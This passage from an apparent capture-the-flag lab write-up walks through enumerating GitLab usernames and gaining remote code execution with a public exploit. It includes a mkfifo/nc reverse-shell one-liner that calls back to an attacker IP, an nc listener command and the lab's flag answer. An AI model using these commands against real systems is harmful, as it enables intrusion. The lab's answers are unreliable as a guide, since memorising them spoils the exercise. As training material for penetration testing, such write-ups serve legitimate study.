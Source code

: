 Run:

```
./enumuser2.sh -u http://gitlab.inlanefreight.local:8081/ --userlist /usr/share/wordlists/seclists/Usernames/cirt-default-usernames.txt  | grep [+]
```

Output:

```
[+] The username DEMO exists!
```

Results: DEMO

If we use a different wordlist we will obtain some more users:

```
GitLab User Enumeration in python
[+] The username bob exists!
[+] The username root exists!
[+] The username demo exists!
[+] The username public exists!
[+] The username help exists!
...[SNIP]...
```


**Gain remote code execution on the GitLab instance. Submit the flag in the directory you land in.**

As we know that Gitlab [13.10.2](https://www.exploit-db.com/exploits/49951) is vulnerable, we will download the exploit 49951.py.

Then, start a listener:

```
nc -lnvp 1234
```

Running the script:

```
python3.11 49951.py -u lala -p lalala123 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.147 1234 >/tmp/f'   -t http://gitlab.inlanefreight.local:8081
```

Now, from the shell:

```
ls -la
cat flag_gitlab.txt
```

Results: s3cure_y0ur_Rep0s!



## Common Gateway Interfaces

**After running the URL Encoded 'whoami' payload, what user is tomcat running as?**
